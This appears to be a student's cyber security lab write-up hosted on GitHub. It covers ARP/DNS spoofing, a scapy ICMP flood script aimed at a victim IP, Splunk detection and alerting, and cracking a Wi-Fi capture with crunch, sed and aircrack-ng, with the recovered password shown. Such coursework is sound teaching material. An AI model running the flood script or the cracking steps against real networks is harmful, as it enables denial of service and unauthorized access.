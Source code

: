 
## Implementation of Arpspoof tool and Splunk SIEM Tool with cracking password

## Use the arpspoof tool to perform the following attacks [10 Marks] 
  ### a. Use ARP packets to perform the DNS spoofing attack. Whatever the website the user types, it should navigate to http://testphp.vulnweb.com/login.php as a part of the attack.



![image](https://github.com/jayshah17/Implementation-of-Cyber-Security-Lab/assets/76842630/7aa715a7-f962-44f0-97cc-f385e310c1a2)

Victim: 

![image](https://github.com/jayshah17/Implementation-of-Cyber-Security-Lab/assets/76842630/6bc5f582-d90e-4437-89a5-d24a3c943829)

Arp Spoof Started

![image](https://github.com/jayshah17/Implementation-of-Cyber-Security-Lab/assets/76842630/20502860-fc28-4804-b4df-5574b945e6aa)

![image](https://github.com/jayshah17/Implementation-of-Cyber-Security-Lab/assets/76842630/62716f88-d63d-40fe-afed-46705ce83537)

Dns Spoof Host

![image](https://github.com/jayshah17/Implementation-of-Cyber-Security-Lab/assets/76842630/8986bd4a-d11a-48e5-bcae-b1766c17cf90)



  ### b. Use ICMP Packets to perform only DDOS attacks over the victim. 

![image](https://github.com/jayshah17/Implementation-of-Cyber-Security-Lab/assets/76842630/86edcb21-1696-4996-bd73-bc886422d8e8)

![image](https://github.com/jayshah17/Implementation-of-Cyber-Security-Lab/assets/76842630/bac150a5-3d56-4bf6-87b2-89101e60a150)

```
from scapy.all import *

# Function to send ICMP packets
def send_icmp_packet(dst_ip):
    icmp_packet = IP(dst=dst_ip)/ICMP()
    send(icmp_packet, loop=True, verbose=False)

# Main function
def main():
    target_ip = input("Enter the target IP address: ")
    while True:
        send_icmp_packet(target_ip)

if __name__ == "__main__":
    main()
```

![WhatsApp Image 2024-03-17 at 10 45 34_8dd998e1](https://github.com/jayshah17/Implementation-of-Cyber-Security-Lab/assets/76842630/7fc8c409-f7fa-4623-8fb7-a0e62325bed1)


DDOS Attack is performed



## 2. Use Splunk to answer the following questions:
  ### a. Capture these above attacks using Splunk in an active or passive method. (10 Marks)

Passive Method for analysing the event

![image](https://github.com/jayshah17/Implementation-of-Cyber-Security-Lab/assets/76842630/96ff1ae2-98f7-4f65-97ad-956fbe7bd15e)

  
  ### b. Identify and Analyse the Indicator of Compromise for the attack. (5 Marks)

- An Indicator of Compromise (IoC) is any piece of evidence or anomaly that suggests a network intrusion or security breach has occurred. IoCs can take various forms, including:
    - File Hashes: Hash values of known malicious files or executables found on systems.
    - IP Addresses: IP addresses associated with malicious activity, such as command and control servers or sources of malicious traffic.
    - Domain Names: Domain names linked to malicious activities, phishing campaigns, or hosting malicious content.
    - URLs: URLs used in phishing emails or websites hosting exploit kits or malware payloads.
    - File Paths: Unusual file paths or directories commonly used by malware for persistence or data exfiltration.
    - Network Traffic Patterns: Anomalous network traffic, such as unusual spikes in DNS queries, connections to known malicious IP addresses, or unexpected outbound traffic.
    - System Logs: Suspicious entries in system logs, including failed login attempts, privilege escalations, or unusual system activities.


For DNS Spoofing Attack IOC can be :
  - DNS Log Analysis and DNS Traffic Analysis
  - File Hash, Suspicious IP Address and anomalous Login Activity


  
  ### c. Explore and create an Alert for similar attacks in the Future. (5 Marks)

- we should create an alert to monitor such type of events when encountered in future.

  
![image](https://github.com/jayshah17/Implementation-of-Cyber-Security-Lab/assets/76842630/d6a72533-bd5a-43ed-a1a0-6a95463274b6)

After Creating an alert 

![image](https://github.com/jayshah17/Implementation-of-Cyber-Security-Lab/assets/76842630/3b78d826-30f9-4b13-bcf3-16c310e404e4)

  - first selecting due to which incident the attack is generated
  - Select Monitoring tool
  - Create alerts.
  - Test the alerts
  - Fine- Tuning the alert
  - Document the alert rules which are crafts
  - Continuous Improvement.


## 3. Use the given PCAP file to analyse and answer the following questions:

  ### a. Decrypt the traffic by cracking the password using appropriate tools and techniques. It is a must to mention briefly your method of cracking the password in the documentation. [HINT: password length – 16, Capital letter – 2, numerals – 6, It is a repetition of the same word as [CyberCyber].[6 Marks]

First we have to create a word list with `Crunch` command 

`crunch 8 8 ,@@@@123 -o temp.txt`

![image](https://github.com/jayshah17/Implementation-of-Cyber-Security-Lab/assets/76842630/fc706b18-c6de-4d33-8ce2-d03f2880b1cd)

`sed "s/^\(.\{8\}\)$/\1\1/" temp.txt > final.txt`

then we will make for 16 characters with concatenation command 

![image](https://github.com/jayshah17/Implementation-of-Cyber-Security-Lab/assets/76842630/1483d82a-173b-49ec-8f8a-64de86e90157)

If we directly crack the password using the cap file it will show as unsupported file so we need to change the formate of the file with tcpdump tool
`tcpdump -r Downloads/midterm.cap -w output.pcap`

we have to crack password by using wordlist in `aircrack-ng tool`
`aircrack-ng output.pcap -w final.txt`

![image](https://github.com/jayshah17/Implementation-of-Cyber-Security-Lab/assets/76842630/c8293b2b-a9aa-4c5c-99cf-81480c740b10)

Password Cracked: `Cisco123Cisco123`

  ### b. Analyse the decrypted traffic using tools to identify the malicious/suspicious activity recorded in the WLAN. [4 Marks]

Now we have to open Wireshark and add our password in keys to decypt the pcap file 

![image](https://github.com/jayshah17/Implementation-of-Cyber-Security-Lab/assets/76842630/c34c9bfd-61b1-4177-9ff1-c22dbeeb61e7)

![image](https://github.com/jayshah17/Implementation-of-Cyber-Security-Lab/assets/76842630/dd34ea48-917f-4a50-a1fa-146c9933d8a7)

On Analyzing the pcap file, we can get to know that Voip call is made throgh Skinny Protocol and all details regarding the call are available in this pcap 

![image](https://github.com/jayshah17/Implementation-of-Cyber-Security-Lab/assets/76842630/4c571bf1-337d-49b6-8d31-4770dfc3dce3)

First Connection is established with Skinny Protocol then Communication is being performed RTP and at last connection is disabled

![image](https://github.com/jayshah17/Implementation-of-Cyber-Security-Lab/assets/76842630/0a700cf5-0b81-4e30-985e-a38360ca6b5f)

![image](https://github.com/jayshah17/Implementation-of-Cyber-Security-Lab/assets/76842630/2d425d52-d0ad-4e94-b561-9760d858cf32)









  

